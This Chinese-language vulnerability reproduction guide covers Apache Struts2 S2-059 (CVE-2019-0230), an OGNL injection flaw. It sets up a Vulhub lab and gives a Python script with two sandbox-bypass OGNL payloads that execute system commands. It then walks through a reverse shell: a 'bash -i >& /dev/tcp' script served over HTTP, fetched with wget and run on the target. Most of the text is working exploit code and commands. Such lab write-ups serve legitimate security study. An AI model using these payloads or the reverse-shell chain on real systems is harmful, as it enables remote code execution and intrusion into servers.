



Apache Struts2 S2-059 远程代码执行漏洞 CVE-2019-0230¶
漏洞描述¶
Apache Struts 框架, 会对某些特定的标签的属性值，比如 id 属性进行二次解析，所以攻击者可以传递将在呈现标签属性时再次解析的 OGNL 表达式，造成 OGNL 表达式注入。从而可能造成远程执行代码。
参考链接：
- https://cwiki.apache.org/confluence/display/WW/S2-059
- https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776
漏洞影响¶
影响版本: Struts 2.0.0 - Struts 2.5.20
环境搭建¶
Vulhub 执行以下命令启动 Struts 2.5.16 s2-059 测试环境：
docker-compose build
docker-compose up -d
启动环境之后访问 http://your-ip:8080/?id=1 就可以看到测试界面
漏洞复现¶
访问 http://your-ip:8080/?id=%25%7B233*233%7D，可以发现 233*233 的结果被解析到了 id 属性中：

《OGNL Apache Struts exploit: Weaponizing a sandbox bypass (CVE-2018-11776)》给出了绕过 struts2.5.16 版本的沙盒的 poc，利用这个 poc 可以达到执行系统命令。
通过如下 Python 脚本复现漏洞：
import requests
url = "http://192.168.174.128:8080"
data1 = {
"id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}
data2 = {
"id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /tmp/awesome_poc'))}"
}
res1 = requests.post(url, data=data1)
# print(res1.text)
res2 = requests.post(url, data=data2)
# print(res2.text)
执行 poc 之后，进入容器发现 touch /tmp/awesome_poc 已成功执行。

反弹 shell¶
编写 shell 脚本并启动 http 服务器：
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
上传 shell.sh 文件的命令为：
wget 192.168.174.128/shell.sh
执行 shell.sh 文件的命令为：
bash shell.sh
成功接收反弹 shell：
